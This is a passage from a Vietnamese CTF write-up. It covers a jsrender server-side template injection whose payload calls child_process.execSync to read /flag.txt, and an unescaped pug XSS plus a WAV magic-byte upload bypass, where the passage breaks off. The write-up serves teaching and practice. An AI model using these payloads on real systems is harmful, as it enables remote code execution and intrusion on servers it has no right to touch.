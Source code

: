 Giờ đến phần sau, ta để ý đoạn code trong route `/admin`:
```javascript 
const users = await db.Users.findAll();
const usernames = users.map((user) => user.username);

res.render("admin", {
    users: jsrender.templates(`${usernames}`).render(),
});
```
Ta thấy code sẽ lấy tất cả user trong database rồi đưa vào `usernames`, sau đó truyền vào trực tiếp vào `jsrender.templates`. Đọc document về `jsrender.templates()`:

![](https://i.imgur.com/rFyRdby.png)

Đại khái thì ta có thể truyền các Template Expressions vào đây => SSTI

Tạo một user mới với tên là payload để đọc `/flag.txt`:
```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```

![](https://i.imgur.com/bcvPkyf.png)

## SpyBug
#### Medium
Bài này đọc sơ qua source ta tóm lại được là ứng dụng ngoài đăng nhập chính có thể cho ta tạo các agents với `24cbaf02-e82a-4079-8e37-f1724d12df28` và `c083682c-6685-44db-a207-955d220be2a9`. Ở panel thì chỉ có admin mới vào được, bên trong panel thì nếu user login vào là admin thì sẽ nhả ra flag, đọc file `panel.pug` để ý thấy:
```
td= agent.identifier
td !{agent.hostname}
td !{agent.platform}
td !{agent.arch}
```
Trong pug thì cú pháp `!{}` sẽ in ra data mà không escape HTMl => Khả năng là XSS. 

Các field như `hostname`, `platform` và `arch` ta có thể kiểm soát nhờ tạo agent và update thông tin bằng cách post vào endpoint `/agents/details/:identifier/:token`

Tuy nhiên thì trang panel cũng có CSP:
```javascript
res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
```
Không có CDN, không có unsafe-eval, không có gì cả, vậy tạm thời chưa lợi dụng được XSS 

Xem tiếp qua các chức năng thì ta thấy có chức năng upload file tại `/agents/upload/:identifier/:token` với điều kiện file upload lên phải là một file âm thanh có đuôi`.wav` và mimetype là `audio/wave`, ta có thể bypass bằng cách chèn magic byte của file âm thanh vào đầu nội dung upload:
```
RIFF????WAVE
...
```
